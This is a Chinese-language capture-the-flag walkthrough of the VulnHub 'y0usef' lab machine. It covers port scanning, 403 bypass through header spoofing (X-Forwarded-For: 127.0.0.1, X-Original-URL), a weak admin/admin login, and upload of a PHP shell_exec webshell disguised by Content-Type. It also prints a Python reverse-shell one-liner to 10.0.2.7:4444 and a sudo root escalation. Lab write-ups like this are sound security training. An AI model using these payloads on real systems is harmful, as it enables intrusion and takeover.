



> 靶机环境介绍
+ [y0usef](https://www.vulnhub.com/y0usef/y0usef.ova) 
+ 难度等级 <font color=green>低</font>

目标:
取得 root 权限 + 2 Flag


**所用技术栈**
+ 主机发现
+ 端口扫描
+ WEB 信息收集
+ 指纹探测
+ **403 Bypass**
+ 文件上传
+ 提权


## 主机发现与端口扫描

```bash
sudo arp-scan -l
```


发现可疑主机 `10.0.2.9`

然后我们对可疑主机进行全端口扫描

```bash
sudo nmap -p- 10.0.2.9
```


发现其开放 22 端口 和 80 端口
然后对端口进行应用版本的发现


```bash
sudo nmap -p22,80 -sV -sC 10.0.2.9
```
我们安装惯例还是对该服务器的80端口开放的web服务进行访问


然后试着查看一下该页面的源码,看看是否能有什么有价值的信息 
<font color="red" face=Monaco size=3> 如 有价值提示的注释信息，调用后端 API 接口的信息, 页面内隐藏的可以提交数据的注入点. </font>

查看网站页面源码的快捷键为:<kbd class="keybord"> Ctrl </kbd> + <kbd class="keybord"> U </kbd>&ensp; 



## 网站信息收集

刚刚我们试着查看了一下该靶机 80端口 的网页,并没有发现什么有价值的信息

这时候我们就要对该网站进行全方位的信息收集

我们试着使用一些工具来扫描并发现目标服务器一些软件的技术栈，网站架构组成的一些信息

```bash
whatweb http://10.0.2.9
```


我们还需要对隐藏目录，隐藏页面进行扫描

```bash
dirsearch -u http://10.0.2.9
```


发现了大量的403 响应的页面


我们知道 403 响应码为拒绝用户访问
所以我们可以猜测目标主机上可能真实存在这些页面，但是由于我们的权限不够导致我们访问失败.

我们还发现一个特殊的重定向页面


我们尝试一下访问该页面，发现访问失败


为进一步确认我们是因为没有权限导致的，我们可以按 <kbd class="keybord"> F12 </kbd>&ensp; 打开开发者选项卡，查看我们请求该页面时，服务器给我们的响应码,发现确实是 403 响应码。

所以网站的建设者大概率是有做一些身份认证和权限限制方面的设置的，而 `adminstration` 这个目录也是有很大概率真实存在在目标服务器上的

> 虽然说网站开发者对网站进行了权限设置,但一般在未做安全方面测试的网站上权限划分和授权方面往往都或多或少存在一些相关漏洞或者薄弱性的。


## 403 Bypass

<font color="red" face=Monaco size=3> 针对所有服务器给我们返回403的场景，我们基本上都要做以下测试： </font>
1. 使用旁站的手段，看看能不能尝试绕过目标服务器403 权限的限制
2. 覆盖 URL 的方式来绕过 403 权限限制
3. 使用头部信息欺骗手段


### 使用旁站的方式

<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
如果网站开发者只针对 Host 头部为 <code>www.zhouhaobusy.com</code> 这样的请求做了权限的限制，造成了 403 访问被拒绝的结果
</div>

> 修改主机头部信息来绕过 403 权限限制

如果请求方式如下
```bash
# Request
  Get /auth/login HTTP/1.1
  Host : www.zhouhaobusy.com
# Response
  HTTP/1.1 403 Forbidden
```

这时候我们就可以猜测如果说目标系统的建设者只针对这一个主机域名进行权限限制的话，当我们使用<font color='red' face=Monaco size=3>这个域里的其它主机名来访问同样URL的时候</font> ，目标服务器是否会给我们返回 200 OK 这样的响应码呢?

我们可以使用如下方式

```bash
# Request
  Get /auth/login HTTP/1.1
  Host : [xxx].zhouhaobusy.com
# Response
  HTTP/1.1 200 OK
```

其中 `[xxx]` 为其旁站主机名

### 使用覆盖URL的方式

<div style='border-radius:15px;display:block;background-color:#a8dadc;border:2px solid #aaa;margin:15px;padding:10px;'>
有很多的目标 web 应用程序他在进行权限控制的时候（ACL） 它只针对我们去get具体的一个 URL 地址时，他才会进行 403 的检查和限制
</div>

```bash
# Request
  Get /auth/login HTTP/1.1
  Host : www.zhouhaobusy.com
# Response
  HTTP/1.1 403 Forbidden
```

```bash
# Request
  Get / HTTP/1.1
  Host: 10.0.2.9
  X-Original-URL: /auth/login
  # ReFerer: https://10.0.2.9/auth/login
# Response
  HTTP/1.1 200 OK
```
当然我们不只有 `X-Original-URL` 这个头部信息可以用来绕过 403 的检查，<font color='red' face=Monaco size=3>  我们还有 `X-Rewrite-URL` `ReFerer` </font>

---
### 使用头部信息欺骗  

我们还可以使用

我们知道，在头部信息里面还存在很多以 `X` 开头的头部信息如: `X-Originating-IP` `X-Remote-IP`  `X-Forwarded-For` 他们都是非标准的头部，但是被大部分网站所采用,所以如果我们的目标靶机支持并且使用这种头部信息的化，我们可以尝试这种方式去欺骗目标服务器

```bash
# Request
  Get / HTTP/1.1
  Host: 10.0.2.9
  X-Originating-IP: 12.0.0.1
  X-Remote-IP: 127.0.0.1
  X-Forwarded-For: 127.0.0.1
  # ReFerer: https://10.0.2.9/auth/login
# Response
  HTTP/1.1 200 OK
```
就比如 `X-Forwarded-For: 127.0.0.1` 就能达到欺骗服务器,认为这个请求是自己请求自己,从而返回 200 响应码 

---

为绕过 403 所以我们先使用 `burpsuit` 将请求数据包先给截获，然后在根据上面的几种方式，挨个尝试.

为尝试更快，我们可以将数据包发送到 `repeater`模块内


最后发现我们在头部中添加 `X-Forwarded-For: 127.0.0.1`  成功绕过了其 403 权限验证。


> 一般服务器都会对客户端进行限制，而很少对自己本身也做限制


我们将数据包全部转发出去后，回到浏览器，发现出现了一个用户登入框。


看见表单我们首先要试一下是否存弱口令，如 `admin 123456` `admin admin`  `admin 123.com` 等等


<font color='red' face=Monaco size=3>记得每次在返回请求时都要加上上面的 `X-Forwarded-For: 127.0.0.1` 防止又被目标靶机给拒绝了</font>

当我们使用 `admin admin` 这个弱口令，成功登入到后台


## 文件上传

登入后台后我们先将每个链接都点进去看一下，我们发现里面有一个链接是我们需要极度关心的。 <font color='red' face=Monaco size=3>`Upload file`</font>

我们先使用一句话木马去测试一下这个网站的文件上传功能.

```php
<?php $var=shell_exec($_GET['cmd']); echo $var ?>
```

将这个文件上传到服务器


我们知道，在目标靶机上大概率会对我们上传的内容进行检验。
1. 检查文件后缀名是否合法
2. 检查请求头部的 `Content-Type` 是否合法
3. 检查文件内容



我们先抱着试一试的心态，将没有任何改变的请求提交到服务器上，( 除了那段绕过 403 的头部信息 )

发现目标靶机果不其然给我们返回了 `file not allow` 这个报错



既然如此，那我们就逐步修改请求信息，直到目标服务器能接收我们的文件。

> 由于修改 `Content-Type` 内容这个步骤比较简单，我们先尝试修改 `Content-Type` 的信息，看看这次能不能成功上传我们的一句话木马。

我们将 `Content-Type` 修改为 `image/png` 图片格式,然后进行上传，发现居然上传成功，看来目标靶机只对 `Content-Type` 做了简单的过滤.


目标靶机还给我们返回了我们上传文件的存储地址和文件名字。

既然如此，我们只需要在网站上访问一下这个路径,看看是否有回显，如果没回显则表示大概率有效。


发现目标靶机给我们返回的路径真的为一个空白界面，然后我们对上面填写我们上传的一句话木马的参数和命令，看看是否真的有效

我们传了个 `id` 命令发现网站真的给我们返回了 `id` 命令的结果，说明我们上传的一句话木马有效。


这时候我们就能想办法反弹一个 SHELL

我们知道使用反弹的 SHELL 功能更完整，而且更容易。
所以我们需要先确认一下目标靶机上是否存在 `python` 环境。
我们运行完 `which python` 后服务器给我们返回了了 `/usr/bin/python` 这就说明目标服务器上存在 python 环境，我们能使用 python 来反弹 shell 


还是之前使用 python 反弹shell 的代码，在这边就不在赘述了。

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

将这段代码复制粘贴进 URL 后执行，发现我们成功获得一个 SHELL <font color='red' face=Monaco size=3>记得在攻击机上监听对应的端口</font>


既然获得了shell 我们要做的第一件事情还是信息收集,查看存在哪些用户啊，哪些用户登入拥有 `shell` 啊等等.

在查看 `/etc/passwd` 文件后，发现了这个用户具有 `/bin/bash`

所以我们先去 `home` 那边查看一下存在哪些家目录。

<font color='red' face=Monaco size=3>即哪些用户存在家目录</font>


在这个目录下，我们发现了用户 `yousef` 的家目录。我们还发现了一个文件 `user.txt`

查看一下这个文件，发现一串类似经过了 `base64` 

```base64
c3NoIDogCnVzZXIgOiB5b3VzZWYgCnBhc3MgOiB5b3VzZWYxMjM=
```


编码后的字符串，我们将其进行解码后，发现了 `yousef` 这个账号的用户名和密码 


<font color='red' face=Monaco size=3>再结合最开始的端口扫描结果，发现目标靶机开放了 22 端口</font>

所以我立马尝试使用这个账号和密码去连接该服务器用户的ssh

发现真的连接上去。


然后我们就尝试进行提权，`sudo -l` 之后发现所有人都可以使用 sudo root权限来运行任何命令

所以我们直接将自己提升成root即可.


<font color='green' face=Monaco size=3>到这边，这台靶机就已经成功被打靶啦。</font> 

> 最后还有一个彩蛋，在 `/root` 下的一个文件，自己去看看吧 ：）